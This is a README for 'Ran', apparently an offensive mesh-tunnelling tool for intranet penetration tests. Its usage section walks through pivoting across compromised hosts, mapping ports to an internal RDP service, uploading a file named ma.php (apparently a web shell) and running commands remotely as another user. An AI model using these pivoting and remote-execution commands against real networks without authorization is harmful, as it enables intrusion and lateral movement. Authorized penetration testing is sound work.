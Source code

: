 # Ran: Another Network

**Cloud native** mesh networking, now introduced to intranet pentests.

## Build and Install

Pre-compiled binaries could be found on GitHub Releases.

For Mainland Chinese users, please use the [Coding.net mirror]().

### Manually build from source

1. Download `go>=1.18`,
2. Clone this repository and `make` to build the binaries from source.

## Usage

Learn usages through an example.

Assuming:

1. you are using `192.168.137.1/24`,
2. you have taken down `192.168.137.101/24`,
3. `192.168.137.101/24` also has address `192.168.56.101/24`,
4. you have taken down `192.168.56.102/24` too,
5. `192.168.56.102` also has address `10.103.10.102/24`.
6. now you want to break into `10.103.10.0/24` through `192.168.56.102/24`

Setup mesh network on the entrypoint:

```shell
# Exec on 192.168.137.101
./ran -l "rantp://0.0.0.0:10080"
```

Connect an individual endpoint to the mesh network:

```shell
# Exec on 192.168.137.102
./ran -u "rantp://192.168.137.101:10080"
```

Or ALTERNATIVELY, connect from entrypoint to that individual endpoint:

```shell
# Exec on 192.168.137.102
./ran -l "rantp://0.0.0.0:10080"
# Exec on the interactive shell later. druB is node name of `101`.
probenode durB 192.168.137.102:10080
```

Access the mesh endpoint, interactively:

```shell
# Exec on 192.168.137.1
./ran -u "rantp://192.168.137.101:10080" -i
# Exec query without being interactive
./ran -u "rantp://192.168.137.101:10080" -c "listnodes"
```

Show nodes on the mesh network:

```shell
listnodes
```

Create tunnel mapping:

```shell
# Aagd is node name of `192.168.56.102`
addmapping zero:192.168.137.1:4321 Aagd:10.103.10.34:3389
# if ip address is 0.0.0.0 or same as node ip,
# or specified with `--listen` flag, the mapping will be reversal
addmapping zero:192.168.137.1:10050 Aagd:10.103.10.102:10050
addmapping zero:192.168.137.1:10050 Aagd::10050 --listen
```

Upload and exec command on remote node:

```shell
# get node information
info Aagd
# Upload or download files with syncfile
syncfile /tmp/ma.php Aagd:/tmp/ma.php
# Will execute with environment loaded non-login shell as "arthur"
execute "whoami" --sudo "arthur" --password "123456"
```

Use `[fe80::wtf]` if you want to conquer over IPv6.

## Protocols

By default, ran use ranTP as protocol for control plane, and
direct L4 routing for data plane.

Alternatively you can use http to wrap up both
control plane or data plane.

socks5, http/2, https, QUIC,DNS,WS+TLS will be supported in the future.

## One more thing

This framework may be robust enough to serve as a L4 service mesh in the future.

